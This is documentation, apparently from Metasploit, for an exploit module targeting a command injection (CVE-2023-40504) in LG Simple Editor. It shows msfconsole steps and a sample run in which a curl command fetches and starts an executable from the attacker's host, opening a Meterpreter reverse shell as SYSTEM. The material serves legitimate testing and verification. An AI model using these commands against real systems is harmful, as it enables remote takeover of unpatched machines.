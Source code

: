 ## Vulnerable Application

This module exploits a command injection vulnerability in LG Simple Editor <= v3.21.0 (CVE-2023-40504).

An unauthenticated remote attacker can exploit this vulnerability to inject arbitrary OS commands, which will get executed in the context of
`NT AUTHORITY\SYSTEM`.

## Testing

The software can be obtained from
[the vendor](https://www.lg.com/us/business/display-solutions/supersign-w-lite/downloads/LGSimpleEditor_setup_v3_21_0.exe.zip).
The vulnerable application runs on Apache Tomcat 7, which listens by default on TCP port 8080.

**Successfully tested on**

- LG Simple Editor v3.21.0 on Windows 10 22H2

## Verification Steps

1. Install the application
2. Start `msfconsole` and run the following commands:

```
msf exploit(windows/http/lg_simple_editor_rce_uploadvideo) > use exploit/windows/http/lg_simple_editor_rce_uploadvideo 
[*] Using configured payload cmd/windows/http/x64/meterpreter/reverse_tcp
msf exploit(windows/http/lg_simple_editor_rce_uploadvideo) > set RHOSTS <IP>
msf exploit(windows/http/lg_simple_editor_rce_uploadvideo) > exploit
```

You should get a meterpreter session in the context of `NT AUTHORITY\SYSTEM`.

## Scenarios

Running the exploit against LG Simple Editor v3.21.0 on Windows 10 22H2, using curl as a fetch command, should result in an output similar
to the following:

```
msf exploit(windows/http/lg_simple_editor_rce_uploadvideo) > exploit 

[*] Command to run on remote host: curl -so %TEMP%\ELizAMEog.exe http://192.168.137.190:8080/Ufbk8y1KXtCzmtyya8K7Jg & start /B
%TEMP%\ELizAMEog.exe
[*] Fetch handler listening on 192.168.137.190:8080
[*] HTTP server started
[*] Adding resource /Ufbk8y1KXtCzmtyya8K7Jg
[*] Started reverse TCP handler on 192.168.137.190:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version: 3.21.0
[*] Sending command injection...
[*] Using random filename: JyQig.mp4
[*] Client 192.168.137.196 requested /Ufbk8y1KXtCzmtyya8K7Jg
[*] Sending payload to 192.168.137.196 (curl/8.7.1)
[*] Sending stage (201798 bytes) to 192.168.137.196
[+] Command injection sent.
[*] Exploit finished, check thy shell.
[*] Meterpreter session 67 opened (192.168.137.190:4444 -> 192.168.137.196:50129) at 2024-08-06 23:16:30 -0400

meterpreter > sysinfo 
Computer        : DESKTOP-1FD5QG3
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
